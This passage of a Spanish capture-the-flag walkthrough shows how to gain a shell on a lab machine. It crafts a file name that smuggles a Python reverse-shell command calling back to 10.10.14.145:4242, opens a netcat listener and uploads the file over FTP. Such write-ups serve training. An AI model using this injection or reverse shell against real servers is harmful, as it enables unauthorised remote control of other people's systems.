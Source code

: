 Hagamos esto paso a paso:

##### Paso 1 - Crear el archivo malicioso

En mi caso pondré una reverse shell en **python3**:

```bash
┌─[z3r0byte@z3r0byte]─[~/Descargas]
└──╼ $ touch "|python3 -c 'a=__import__;s=a("\"socket\"");o=a(\"os\").dup2;p=a(\"pty\").spawn;c=s.socket(s.AF_INET,s.SOCK_STREAM);c.connect((\"10.10.14.145\",4242));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p(\"sh\")'".csv
```

##### Paso 2 - Nos ponemos en escucha por el puerto especificado

En mi caso, por el puerto `4242`:

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $ nc -lvp 4242
Listening on 0.0.0.0 4242
```

| Parámetro | Acción |
|:---------:|:------:|
| `-l` | Habilita el modo escucha, para conexiones entrantes |
| `-v` | Este parámetro dice que queremos que nos reporte más información de lo normal |
| `-p` | Especificamos el puerto por el cual nos queremos poner en escucha, en mi caso el `4242` |


##### Paso 3 - Subimos el archivo al servidor FTP

Se puede subir a cualquier directorio, yo lo voy a hacer en `versions/`

```bash
┌─[z3r0byte@z3r0byte]─[~/Descargas]
└──╼ $ ftp 10.10.10.249
Connected to 10.10.10.249.
220 (vsFTPd 3.0.3)
Name (10.10.10.249:z3r0byte): pwnmeow
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd versions/
250 Directory successfully changed.
ftp> put "|python3 -c 'a=__import__;s=a("\"socket\");o=a(""\"os\").dup2;p=a(""\"pty\").spawn;c=s.socket(s.AF_INET,s.SOCK_STREAM);c.connect((""\"10.10.14.145\",4242));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p(""\"sh\")'.csv"
local: |python3 -c 'a=__import__;s=a("socket");o=a("os").dup2;p=a("pty").spawn;c=s.socket(s.AF_INET,s.SOCK_STREAM);c.connect(("10.10.14.145",4242));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("sh")'.csv remote: |python3 -c 'a=__import__;s=a("socket");o=a("os").dup2;p=a("pty").spawn;c=s.socket(s.AF_INET,s.SOCK_STREAM);c.connect(("10.10.14.145",4242));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("sh")'.csv
200 PORT command successful. Consider using PASV.
150 Ok to send data.
```
En este momento, nos llegaría una shell de nuestra propia máquina, solamente hay que hacer `ctrl + c` para parar el proceso y volverse a poner en escucha de nuevo.
